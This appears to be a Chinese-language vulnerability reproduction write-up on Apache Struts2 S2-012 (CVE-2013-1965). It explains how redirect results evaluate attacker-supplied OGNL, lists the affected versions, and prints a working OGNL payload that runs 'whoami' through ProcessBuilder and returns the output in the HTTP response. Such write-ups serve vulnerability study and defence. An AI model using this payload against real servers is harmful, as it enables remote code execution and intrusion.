 * [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#payload)
         * [执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#执行命令)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-012/S2-012.md#参考)

## 前言

> 这是Struts系列第七篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-012漏洞,又名CVE-2013-1965漏洞.

> 在Struts2框架中,如果配置Action中的Result时使用了重定向类型,并且还使用${param_name}作为重定向变量,当触发redirect类型返回时,Struts2使用${param_name}获取其值,在这个过程中会对name参数的值执行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-012)

#### 漏洞成因

> 在Struts2框架中,如果配置Action中的Result时使用了重定向类型,并且还使用${param_name}作为重定向变量,当触发redirect类型返回时,Struts2使用${param_name}获取其值,在这个过程中会对name参数的值执行OGNL表达式解析,从而可以插入任意OGNL表达式导致任意代码执行

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.2

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
